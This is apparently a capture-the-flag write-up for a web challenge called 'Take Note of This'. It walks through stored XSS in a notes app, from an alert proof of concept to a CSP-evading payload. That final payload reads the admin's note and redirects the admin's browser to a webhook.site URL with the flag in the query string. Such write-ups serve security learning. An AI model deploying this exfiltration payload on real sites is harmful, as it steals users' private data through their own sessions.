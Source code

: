 # [Web] Take Note of This

## Description

After getting three quotes and totally not picking the lowest, we found that the application delivered to us has some...critical flaws. However, we were assured that there is no way for a malicious actor to read or exfiltrate the flag that the admin stored in a note.

In other completely unrelated news, come try out our application! For a short time, you can share your amazing notes with the admin.

![TakeNote](images/TakeNote01.png)

## Walkthrough

Seems like we are able to add "Notes" which can then be "shared" to an admin. 🤔 Immediately we think of client-side attacks such as XSS or CSRF.

Viewing the HTML source, we see that the [source code](files/takenote-main.js) was available at `/js/main.js` and this is how each note is loaded:

```js
function loadNote() {
  const noteId = /^\/note\/([0-9]+)$/.exec(document.location.pathname)[1];
  req(`/api/note/${noteId}`, "GET").then((data) => {
    if (data.success) {
      document.querySelector("#note-id").innerHTML = noteId;
      document.querySelector("#note").innerHTML = data.note;
    }
  });
}

function req(uri, method, data) {
  return fetch(uri, {
    method,
    credentials: "same-origin",
    cache: "no-cache",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify(data),
  })
    .then((res) => res.json())
    .then((data) => {
      if (!data.success && data.message === "Unauthorized") {
        document.location.pathname = "/login";
        return;
      }

      return data;
    });
}
```

Seems like there is no sanitization in this application, let's verify that the note form is vulnerable to XSS:

```html
<img src=x onerror=alert(1) />
```

![TakeNote](images/TakeNote02.png)

> We use `<img>` tag because the underlying source uses `innerHTML` to set the HTML content, so we cannot simply use `<script>` tags to run JS.

Since it is possible to carry out XSS, let us craft a client-side attack payload which will let us session ride on the admin's session to view their first note (index 0).

Looking at the source code above, we see that the end-point to reach to read notes is at: `/api/note/{noteId}`.

Let's now upgrade our XSS PoC to fetch our note 1's content, leveraging on the `req()` from the source above:

```html
<img src=x onerror="req('/api/note/1', 'GET').then((data) => {flag = data.note; alert(flag)});">
```

![TakeNote](images/TakeNote03.png)

Great, now we can think about how to exfiltrate the admin's note 0 data... But we notice that the application has CSP policy which prevents us from simply making a XHR request out to a domain we control:

```
Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self' 'unsafe-inline'
```

![TakeNote](images/TakeNote04.png)

This CSP restricts us from making any outbound requests since `connect-src` is not specified and `default-src` is defined as `self`.

Well, another way to do this is to simply redirect the user to our controlled domain:

```js
window.location.replace('our-controlled-domain');
```

We will also use webhook.site as our proxy. Now, our final payload will look like:

```html
<img src=x onerror="req('/api/note/0', 'GET').then((data) => {flag = data.note; window.location.replace('https://webhook.site/606b74f7-2336-4099-9ec0-7ffcaa5fa4d7/?flag='.concat(flag));});">
```

Which will send a `GET` request to our proxy, containing the flag as a HTTP parameter. Let's click on the `share` button (or manually send a `POST` request to `/api/share/${noteId}`) and wait for the payload to trigger:

![TakeNote](images/TakeNote05.png)

Finally, we obtain the flag: `CTFSG{g3nEr1c_aPp}`
